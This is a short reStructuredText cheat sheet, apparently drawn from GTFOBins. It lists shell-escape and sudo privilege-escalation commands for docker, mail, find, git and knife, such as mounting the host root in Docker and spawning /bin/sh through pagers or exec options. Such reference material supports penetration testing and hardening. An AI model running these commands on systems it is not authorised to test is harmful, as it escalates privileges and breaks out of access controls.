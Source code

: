 `GTFO PE <https://gtfobins.github.io/>`_
********************************************

`Docker <https://gtfobins.github.io/gtfobins/docker/>`_
########################################################

Shell
++++++++++

It can be used to break out from restricted environments by spawning an interactive system shell.

.. code-block:: console

   docker run -v /:/mnt --rm -it <image_name> chroot /mnt sh 

`Mail <https://gtfobins.github.io/gtfobins/mail/>`
#############################################################

Sudo
+++++++

        If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

.. code-block:: console

        sudo mail --exec='!/bin/sh'

Shell
++++++++

It can be used to break out from restricted environments by spawning an interactive system shell.

GNU version only.

.. code-block:: console

   mail --exec='!/bin/sh'

This creates a valid Mbox file which may be required by the binary.

.. code-block:: console

        TF=$(mktemp)
        echo "From nobody@localhost $(date)" > $TF
        mail -f $TF
        !/bin/sh
find
#########

Shell
+++++++++++

.. code-block:: console

        find /etc/passwd -exec /bin/sh \; 

git
################

Shell
+++++++++++++

Way 1

.. code-block:: console

   git help config
        !/bin/sh

way 2

.. code-block:: console

   git branch --help config
        !/bin/sh

Knife
#######################

sudo
++++++++

.. code-block:: console

   sudo knife exec -E 'exec "/bin/sh"'
